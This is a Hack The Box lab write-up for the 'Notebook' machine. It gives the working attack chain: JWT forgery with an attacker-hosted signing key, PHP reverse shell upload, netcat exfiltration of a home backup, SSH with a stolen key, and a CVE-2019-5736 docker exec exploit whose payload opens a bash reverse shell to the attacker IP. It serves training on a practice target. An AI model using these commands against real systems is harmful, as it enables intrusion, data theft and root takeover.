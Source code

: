 # Hack The Box Guide by Alen Peric:
## The Notebook
### IP: 10.10.10.230

### Summary: 

The Notebook introduces us to jwt token manipulation. Lots of interesting lessons on base64 encoding/decoding, constructing cookies and manipulating them. Great insight into transferring files using netcat. This machine also shows us how to manipulate the docker exec environment for privilege escalation. Touches on “go” and “tar” files, as well as ssh private keys for verification.

### CVE References:
- CVE-2019-5736 

### Lessons:

Amazing learns about JWT token manipulation. Aside from being able to redirect the verification process to our local machine and sign with our own private key. The alternative is the ability to change the JWT token’s alg field to none, which omits the need for a signature in the cookie. Lots of great information in here: https://cyberpolygon.com/materials/security-of-json-web-tokens-jwt/ as well as the actual website for decrypting JWT tokens can be found here: https://jwt.io/ 
Additionally, here is a great website to convert base64 and encode it: https://www.base64encode.org/ also there seems to be a brute-forcing tool for jwt tokens on github here: https://github.com/ticarpi/jwt_tool/ 
Getting the root flag is as usual with first issuing the sudo -l command and using a docker exec exploit against it: https://github.com/Frichetten/CVE-2019-5736-PoC The exploit may be found here and all we need to do is manipulate the payload variable in order for it to execute our commands. Also another good look into transferring files using netcat. 

**-------------------------------------------------------------------------------------------------------------------------------**

### Important Commands:
- ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key
- openssl rsa -in privKey.key -pubout -outform PEM -out privKey.key.pub
- nc -N 10.10.16.160 1717 < /var/backups/home.tar.gz
- nc -nvlp 1717 > home.tar.gz
- ssh -i id_rsa noah@10.10.10.230 
- Sudo -l
- sudo /usr/bin/docker exec -it webapp-dev01 bash
- go build main.go

**-------------------------------------------------------------------------------------------------------------------------------**

### Notes:

Starting with enumeration, we observe that port 22 (SSH) and port 80 (HTTP) are open. There was also port 10010 open with rxapi, however that is a rabbid hole. Start your burpsuite, turn packet intercepts off and let’s head to the website. There is a small webapp running on there, where we are able to create an account and post notes to a website. After some experimenting trying to inject SQL and reverse shells to the website, we observe that there is a token that gets passed through the packet whenever we refresh the page. The cookie token looks like this:

Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6Im1lMTIzIiwiZW1haWwiOiJtZUBtZS5jb20iLCJhZG1pbl9jYXAiOjB9.mtjs7cClGwfZSGFPP8gvpTXuFHCV7UOOxcvc7fvooUKkuOheg1RuiUqWo0Ba7CcC5fBozAU6Vt5jyJ0r1Qmtg1_j8VowZfbqJmwilf89TzDM977yb8WUuqp6fm_rHv0RzJPCQ0V0u_AqOKBr1UOvQsvnwgNO9VcLhpOtRuKovrcf2vY3cwbaK6zNzAT4n9RubQSW2rsmchX3t7FoHzP5Y8HmAbDBZifOEXMymu2Uwjl71S_IHcvGfzweBwa0iYBEsBC4vaDgXh7_RUVx5qn6AjWhrlCRzc24aD-gz-Omy8uVIfVxtRQJ3vyzud1pGkQjJO2bI94c_JjnjFH7WQoXHKjA4PE5bUz-BErCXl2uTPQKrzllKnPzUODfEUNgAQ_HnncBbB48QN69ja63_t3xbaH9Xvo-fiqGBaS68sAdxwFQDLdQ9fN_mcIyu1V9ibiKfZXKbiQmlB-TElmb1BX1bKgu7uLBrWGTV4cM5ucU1fGr0wX6UUazg1mQx5MGEUiCEW9qGL4ihPdUUzZwvP9PgDPGBFJeuwGWeEcnQpahBVEG04Jkmag8hoIMJUTFi35ZpLlcop4NzjSb_btrC0BGT9L6sh5xEeTZcb26g7RdCa5vhVQ_ARhZaUq8C4DIQNWg0uoIEmhSV8ed9JeikAloyUUrKqs44WUPwjDya_ob-2g; uuid=6662433b-f57b-43af-b026-04b151ed1a3c

This is a JWS token. It is encoded in base64. These tokens consist of a header, payload and signature. For this exercise, we will use the websites http://jwt.io and http://base64encode.com / http://base64decode.com/ . We can put the string into http://jwt.io and it shows us some of the fields that are in here. 



You will notice a few things. The red part of the text is the Header, the purple is the Payload and the blue is the signature. The mechanic that occurs here is once the website receives the packet from our host, it will check its localhost on port 7070 in order to make sure the signature of the cookie matches its private key. What we want to do here is modify the packet so that the machine will check our port to verify the signature with our private key. Changing anything on the Header and Payload on jwt.io will not update properly and as such we need to translate our token through the base64 website. We copy the red part of the text, decode it through base64, and change the localhost to our host IP. we re-encode the payload back to base64, add it to a notepad document and append a . to it, which is the separator in the token. We repeat the same for the payload, however, all we changed with the payload was the admin_cap bit from 0 to 1 which is going to make the user you created an admin for this cookie request. Modifying the bit only stays as long as we can generate our own cookie. 

Now it’s time to create a directory mkdir notebook && cd notebook then we generate a new set of ssh keys in this folder with the command: ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key this will generate new RSA keys for us. After this we are going to modify the format by issuing: openssl rsa -in privKey.key -pubout -outform PEM -out privKey.key.pub and then issue the cat command to view both files. We copy the entire key, including the ----BEGINNING OF RSA KEY---- and add both parts to our token in jwt.io website. This should show us that the signature is valid and the entire cookie is constructed. Before we are able to validate the cookie, we have to start hosting our privKey.key on port 7070. In order to accomplish this we start a mini python server on our port 7070, with the command python3 -m http.server 7070. Once this is accomplished, we refresh the notebook page, intercept the packet with burpsuite and replace the cookie token with the one we generated. If everything is done properly, once the website reloads, we should be able to access the admin panel. Remember that each page request will require you to replace the cookie token, in order to maintain admin access to the page. 

We can head to the admin panel now and we notice that we are able to upload files now. I uploaded a simple php reverse shell from Kali’s resources under /usr/share/webshells/php/php-reverse-shell.php or you could use the one from pentest monkey found here: http://pentestmonkey.net/tools/web-shells/php-reverse-shell and set up a netcat listener. Make sure to modify the php shell with your IP and port. Once the shell is uploaded we copy the name generated blablabla.php and append that name to the http://10.10.10.230/blablabla.php and that will trigger the reverse shell to call back to our netcat session. 

Now that we have a connection up and running, we issue the command whoami and it shows us we landed a shell as www-data. Browsing around the directory, we can find a copy of a home directory in /var/backups, as well as a home.tar.gz. While the home directory doesn’t give us all of the read permissions we need, we are able to read home.tar.gz just fine. We issue the command: nc -N 10.10.16.160 1717 < /var/backups/home.tar.gz on the target machine and nc -nvlp 1717 > home.tar.gz on our host machine. This will transfer a copy of home.tar.gz which we can unpack to find a copy of noah’s home directory with the command: tar . In noah’s home is a .ssh folder with a copy of Noah’s private and public key. We can use the private key to authenticate trough ssh, without providing a password. In order to do this, we issue the command ssh -i id_rsa noah@10.10.10.230 

Now that we have access to Noah’s account,  we can cd into his home directory where we find the user flag. Time to escalate our privileges to root! The first thing we do, whenever we test privilege escalation, is to see if the sudo has allowed us to issue any commands as them, without requiring a password. We are able to run the command /usr/bin/docker exec -it webapp-dev01* 

We search for an exploit on google: docker exec exploit github and one of the first results that comes up is a CVE-2019-5736 PoC page: https://github.com/Frichetten/CVE-2019-5736-PoC 
We clone the repository, and modify the main.go file. We will modify the payload, where it says var payload = “blabla”, we will replace it with the following command: var payload = “#!/bin/bash \n echo 'bash -i >& /dev/tcp/10.10.16.160/1337 0>&1' > /tmp/rev.sh && chmod +x /tmp/rev.sh && bash /tmp/rev.sh"

After this is done, we save the file and build our main by issuing the command go build main.go
This should result in producing a compiled file called just main. Start a mini http server on port 1010 so we are able to upload the main to the target machine as this will be the payload that will be executed to get us to root. We go back to the target machine and issue our sudo command to get into the docker container: sudo /usr/bin/docker exec -it webapp-dev01 bash. Now that we are in the docker container, running as sudo, we open a second instance of noah’s ssh shell and start a netcat listener on port 1337 on our local machine. On the docker instance, we cd into /tmp and then issue a wget http://10.10.16.160:1010/main to download the main we just built with go. Once it is downloaded, we issue the chmod +x ./main command in order to add executable permissions to it. Before we run it, make sure to have the same sudo /usr/bin/docker exec -it webapp-dev01 bash ready in the second terminal, as you’ll have to be quick. Run the ./main in the first docker instance and while it is initializing, issue the command in the second ssh shell and you should hey the response: no help topic for ‘/bin/sh’ if you see this, you’re on the right track and once the command finishes compiling, it should start a shell to root account in the netcat session that is listening on port 1337 should connect via the payload and grant us root permissions. Now we can cd into /root and retrieve our root flag! Good job on finishing this lab!

